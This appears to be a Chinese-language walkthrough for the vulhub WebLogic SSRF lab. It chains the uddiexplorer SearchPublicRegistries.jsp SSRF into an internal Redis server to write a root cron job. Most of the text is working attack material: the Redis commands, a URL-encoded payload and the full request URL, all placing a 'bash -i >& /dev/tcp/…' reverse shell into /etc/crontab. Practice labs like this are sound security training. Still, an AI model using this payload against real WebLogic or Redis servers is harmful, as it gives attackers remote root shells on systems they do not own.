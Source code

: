 



实验环境 https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf

生成gopher Payload 脚本：https://xz.aliyun.com/t/5665#toc-8

发送三条redis命令，将弹shell脚本写入/etc/crontab：

```sh
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.18.0.1/21 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

进行url编码：

```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

注意，换行符是“\r\n”，也就是“%0D%0A”。
发送请求

```
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.21.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.21.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

![img](assets/nOJCo2N.png)



查看Redis和`/etc/crontab`成功写入
![img](assets/m465hOb.png)
